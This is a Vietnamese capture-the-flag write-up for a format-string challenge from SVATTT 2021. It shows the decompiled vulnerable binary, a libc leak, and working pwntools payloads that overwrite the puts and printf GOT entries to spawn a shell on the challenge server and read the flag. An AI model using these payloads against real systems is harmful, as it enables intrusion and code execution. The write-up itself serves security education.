 # PWN WRITE UP - Vòng khởi động svattt 2021
## 1. Pray for flag


Đầu tiên mình kiểm tra qua file bằng checksec 


```
[*] '/home/iluvinn/pwn/svattt/pray_for_flag/pwn1'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
Thấy có canary và nx enabled nên hướng làm có thể sẽ sử dụng format string. 
<br>
Chạy thử để xem file hoạt động ra sao <br>
```
## TEST 1 ##
iluvinn in ~/pwn/svattt/pray_for_flag λ ./pwn1
Welcome to the wishing central!
Tell me what you want and I will give it to you.
What do you want?
I_want_money      <=== USER INPUT
I_want_money      <=== OUTPUT
Bye
## TEST 2 ##
iluvinn in ~/pwn/svattt/pray_for_flag λ ./pwn1
Welcome to the wishing central!
Tell me what you want and I will give it to you.
What do you want?
%p.%p.%p                      <=== INPUT
0x100.0xf7f125c0.0x80485df    <=== OUTPUT 
Bye
```
Sure kèo có format string rồi :v 
<br>
Tiếp sau đấy mình dùng ida để decompile ra source code
```
void init()
{
  setbuf(stdout, 0);
  setbuf(stdin, 0);
  setbuf(stderr, 0);
}

unsigned int vuln()
{
  char s[256]; // [esp+Ch] [ebp-10Ch] BYREF
  unsigned int v2; // [esp+10Ch] [ebp-Ch]

  v2 = __readgsdword(0x14u);        <=== CANARY
  fgets(s, 256, stdin);
  printf(s);                        <=== FORMAT STRING VULN
  return __readgsdword(0x14u) ^ v2;
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  init(&argc);
  puts("Welcome to the wishing central!");
  puts("Tell me what you want and I will give it to you.");
  puts("What do you want?");
  vuln();
  puts("Bye");
  return 0;
}
``` 

Mình nhận tháy là trong .plt không có hàm system vậy nên ý nghĩ ban đầu cần phải có libc base address, system offset và "/bin/sh" offset sau đó điều khiển luồng chương trình thực thi hàm system và gọi bash.
<br>
Ý tưởng của mình ở đây là overwrite địa chỉ của hàm puts khiến nó gọi lại hàm vuln để tạo 1 vòng loop. Sau đó overwrite hàm printf bằng system. Đến lần loop thứ 3 ta chỉ đơn giản là input chuỗi "/bin/sh"
<br>
Đầu tiên là leak stack để tìm libc base và tạo loop.

```
iluvinn in ~/pwn/svattt/pray_for_flag λ ./pwn1
Welcome to the wishing central!
Tell me what you want and I will give it to you.
What do you want?
AAAA%p.%p.%p.%p.%p.%p.%p.%p          
AAAA0x100.0xf7f165c0.0x80485df.0xf7f16d80.0x11.0x80487b1.0x41414141.0x252e7025    <=== write to parameter 7 on stack
Bye
----------------#   GDB   #--------------------------
main:
   0x0804868b <+82>:	add    esp,0x10
   0x0804868e <+85>:	call   0x80485d0 <vuln>  <==== overwirte puts@plt = 0x0804868e
   0x08048693 <+90>:	sub    esp,0xc
puts@plt:
   0x08048430 <+0>:	jmp    DWORD PTR ds:0x804a01c
   0x08048436 <+6>:	push   0x20
   0x0804843b <+11>:	jmp    0x80483e0

----------------# Exploit #--------------------------
   put =  0x804a01c
   arr = [0x868e,0x0804]          <==== address of "call   0x80485d0 <vuln>"
   exp = p32(put)+p32(put+2)      <==== put low and high address of "puts" into stack
   
   wr = arr[1]-8
   exp+="%"+str(wr)+"c%8$hn"      <==== write low addr with "%hn"
   wr = arr[0]-arr[1]
   exp+="%"+str(wr)+"c%7$hn"      <==== write high addr with "%hn"
   
   exp+="%2$p"                    <==== leak 1 addr in libc to calculate libc base address
   x = 0xf7edc5c0 - 0xf7d04000    <==== offset from 2nd parameter to libc base address
   
   p.recvuntil('want?\n')
   p.sendline(exp)                <==== send payload
   p.recvuntil('0x')
   libc_base =int("0x"+p.recv(8),16)-x  <=== leak 2nd parameter and calculate libc base address
   print "libc base: "+hex(libc_base)
```
Tiếp sau đó ta overwrite printf thành system
```
------------------------------------------
iluvinn in ~/pwn/svattt/pray_for_flag λ readelf -s libc-2.27.so | grep system
   254: 00129530   102 FUNC    GLOBAL DEFAULT   13 svcerr_systemerr@@GLIBC_2.0
   652: 0003d2e0    55 FUNC    GLOBAL DEFAULT   13 __libc_system@@GLIBC_PRIVATE
  1510: 0003d2e0    55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0              <==== system offset
--------------# GDB #---------------------
pr = 0x804a010                  <==== printf@plt addr

sys_offset = 0x003d2e0
sys_got=libc_base+sys_offset
sys_got = str(hex(sys_got))
arr = [int("0x"+sys_got[6:],16),int(sys_got[:6],16)]

exp = p32(pr)+p32(pr+2)         
xx = arr[0]-8
exp+="%"+str(xx)+"c%7$hn"
xx = arr[1]-arr[0]
exp+="%"+str(xx)+"c%8$hn"

p.sendline(exp)
p.sendline("/bin/sh")     <==== send "/bin/sh" string so it will call system("/bin/sh") instead of printf("/bin/sh")
p.interactive()
```
Chạy file exploit hoy
```
iluvinn in ~/pwn/svattt/pray_for_flag λ python exp.py
[+] Opening connection to 134.209.97.157 on port 2222: Done
libc base: 0xf7daa000
[*] Switching to interactive mode
$ id
uid=1000(noob) gid=1000(noob) groups=1000(noob)
$ cat fl*
ptitctf{B3_C4RFUL_WH47_Y0U_W15H_F0R}
$
```
